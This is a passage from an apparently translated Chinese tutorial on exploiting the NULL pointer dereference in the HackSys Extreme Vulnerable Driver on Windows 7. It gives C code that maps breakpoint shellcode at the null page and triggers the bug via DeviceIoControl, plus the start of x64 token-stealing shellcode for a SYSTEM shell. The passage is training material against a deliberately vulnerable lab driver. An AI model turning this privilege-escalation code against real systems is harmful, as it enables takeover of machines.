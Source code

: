 ```
// Add our breakpoint shellcode
memset((void*)0x100, 'xcc', 0x100);

// Set the Callback() address
*(unsigned long long*)0x8 = 0x100;
```

为了与驱动程序交互，并触发漏洞，我们将使用与此前文章中类似的一组调用：

```
HANDLE driverHandle = CreateFileA(
    "\\.\HackSysExtremeVulnerableDriver",
    GENERIC_READ | GENERIC_WRITE,
    0,
    NULL,
    OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL,
    NULL
);

char exploit[1024];

memset(exploit, 'A', sizeof(exploit));
DeviceIoControl(
    driverHandle,
    HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
    exploit,
    sizeof(exploit),
    NULL,
    0,
    NULL,
    NULL
);
```

编译后运行，我们得到如下结果：<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01477091a6b56804c9.png)<br>
非常棒，目前我们已经控制了rip地址。在这个阶段，我们希望使用此前文章中的Shellcode，并且得到我们的SYSTEM Shell。然而请注意，我们以前的Shell是为Windows 10开发的，而现在正在对Win 7进行漏洞利用的尝试，因此我们需要调整Shellcode的偏移量，以匹配早期的Windows版本。<br>
最简单的方法是在WinDBG中使用dt命令，例如：

```
dt nt!_KPRCB
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01e058072dc8d0739b.png)<br>
在所有的偏移量都更新之后，得到的Shellcode如下：

```
[BITS 64]

  push rax
  push rbx
  push rcx
  push rsi
  push rdi

  mov rax, [gs:0x180 + 0x8]   ; Get 'CurrentThread' from KPRCB

  mov rax, [rax + 0x210]       ; Get 'Process' property from current thread

next_process:
  cmp dword [rax + 0x180], 0x41414141  ; Search for 'cmd.exe' process ('AAAA' replaced by exploit)
  je found_cmd_process
```